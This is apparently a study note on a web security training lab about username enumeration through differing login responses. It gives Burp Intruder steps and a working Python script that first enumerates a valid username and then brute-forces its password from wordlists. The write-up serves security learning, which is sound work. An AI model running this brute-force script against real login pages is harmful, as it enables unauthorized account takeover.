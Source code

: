 # Username enumeration via different responses
---
- _Username enumeration_ is when an attacker is able to observe changes in the website's behavior in order to identify whether a given username is valid.
- This typically occurs either on the login page.
- For example, when you enter a valid username but an incorrect password, or on registration forms when you enter a username that is already taken.

While attempting to brute-force a login page, you should pay particular attention to any differences in:
- **[[2. Username enumeration via different response| Status Codes]]**
- **[[3. Username enumeration via subtly different responses|Error messages]]**
- **[[4. Username enumeration via response timing|Response times]]**

# Lab: Username enumeration via different responses
---
1. With Burp running, investigate the login page and submit an invalid username and password.
2. In Burp, go to **Proxy > HTTP history** and find the `POST /login` request. Send this to Burp Intruder.
3. In Burp Intruder, go to the **Positions** tab. Make sure that the **Sniper** attack type is selected.
4. Click **Clear §** to remove any automatically assigned payload positions. 
	- Highlight the value of the `username` parameter and click **Add §** to set it as a payload position. 
	- This position will be indicated by two `§` symbols, for example: `username=§invalid-username§`. 
	- Leave the password as any static value for now.
5. On the **Payloads** tab, make sure that the **Simple list** payload type is selected.
6. Under **Payload settings**, paste the list of candidate usernames. Finally, click **Start attack**. The attack will start in a new window.
7. When the attack is finished, on the **Results** tab, examine the **Length** column. 
	- You can click on the column header to sort the results. Notice that one of the entries is longer than the others. 
	- Compare the response to this payload with the other responses. 
	- Notice that other responses contain the message `Invalid username`, but this response says `Incorrect password`. 
	- Make a note of the username in the **Payload** column.
8. Close the attack and go back to the **Positions** tab. 
	- Click **Clear**, then change the `username` parameter to the username you just identified. 
	- Add a payload position to the `password` parameter. 
	- The result should look something like this:  `username=identified-user&password=§invalid-password§`
9. On the **Payloads** tab, clear the list of usernames and replace it with the list of candidate passwords. Click **Start attack**.
10. When the attack is finished, look at the **Status** column. Notice that each request received a response with a `200` status code except for one, which got a `302` response. This suggests that the login attempt was successful - make a note of the password in the **Payload** column.
11. Log in using the username and password that you identified and access the user account page to solve the lab.

>[!note]
>It's also possible to brute-force the login using a single cluster bomb attack.
>However, it's generally much more efficient to enumerate a valid username first if possible.


```python
#!/usr/bin/env python3
# Username enumeration via different responses
import requests
import sys

# Debugging
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
p = {'http':'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}

def user_list(url, user_path):
    with open(user_path, 'r') as f:
        for users in f.readlines():
            user = users.replace('\n', "")
            data = {'username':user, 'password':'wrongpassword'}
            req = requests.post(url, data=data, verify=False, proxies=p)
            if "Invalid username" not in req.text:
                return user
            continue
        return False

def pass_list(url, user, pass_path):
    with open(pass_path, 'r') as f:
        for passwords in f.readlines():
            password = passwords.replace('\n', "")
            data = {'username':user, 'password':password}
            req = requests.post(url, data=data, verify=False, proxies=p)
            if "Incorrect password" not in req.text:
                return password
            continue
        return False

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
        username = sys.argv[2].strip()
        password = sys.argv[3].strip()
    except IndexError:
        print("[-] Usage: {} <url> <username> <password>".format(sys.argv[0]))
        print("[-] Example: {} http://example.com admin password".format(sys.argv[0]))
        sys.exit(1)
    
    print("[+] Enumerate the username...")
    user = user_list(url, username)
    if user:
        print(f"[-] Found the username...       [{user}]")
        print("[+] Enumerate the password...")
        passwd = pass_list(url, user, password)
        if passwd:
            print(f"[-] Found the password...       [{passwd}]")
```